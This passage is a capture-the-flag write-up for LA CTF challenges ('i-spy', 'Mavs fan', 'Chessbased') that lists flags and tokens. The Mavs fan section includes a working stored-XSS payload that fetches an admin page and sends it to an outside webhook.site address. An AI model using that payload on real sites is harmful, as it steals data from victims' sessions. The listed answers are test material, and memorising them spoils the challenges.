 
### Phase 10:

![image](https://github.com/user-attachments/assets/ff9377f1-7e4b-4bf9-93a4-dcc4c5f96f7f)

Make a DELETE request and easy token: `32BFBAEB91EFF980842D9FA19477A42E`

![image](https://github.com/user-attachments/assets/dd2ff54d-b614-4cba-ba00-79b74d1c6163)

### Phase 11: 

![image](https://github.com/user-attachments/assets/c8d1b21f-ae10-4cbf-ad8e-4b7f4f6b3c08)

Sử dụng command: `nslookup -type=TXT i-spy.chall.lac.tf` and get the token: `7227E8A26FC305B891065FE0A1D4B7D4`

![image](https://github.com/user-attachments/assets/4929a5cc-4822-414a-af52-26b540b99990)

### Flag:
`lactf{1_sp0773d_z_t0k3ns_4v3rywh3r3}`

## Mavs fan:

![image](https://github.com/user-attachments/assets/189b77f2-7edc-493a-9de7-792c06281f85)

Test with payload `<img src=0 onerror=alert(1)>`

![image](https://github.com/user-attachments/assets/8f02e68e-b158-46c7-8641-37a11f0f1c2e)

So, this page is injectable with xss attack. Now using your payload to get the flag.

```
<img src=0 onerror="fetch('/admin').then(r=>r.text()).then(r=>fetch('https://webhook.site/505441f7-f71f-4349-aaaa-5a1615cf4cca', {method: 'POST', mode:'no-cors', body: JSON.stringify(r) }))">
```

![image](https://github.com/user-attachments/assets/9d969e5d-ec3b-4212-8009-6e6803e2f2ba)

### Flag:
`lactf{m4yb3_w3_sh0u1d_tr4d3_1uk4_f0r_4d}`

## Chessbased:

![image](https://github.com/user-attachments/assets/112ab03a-6333-4554-93e5-c0a57f136d56)

Because they forgot to restrict user from using `/render` to get flag, so:

![image](https://github.com/user-attachments/assets/6d85ff89-8516-4a4e-8c36-0605560a7f75)

### Flag:
`lactf{t00_b4s3d_4t_ch3ss_f3_kf2}`
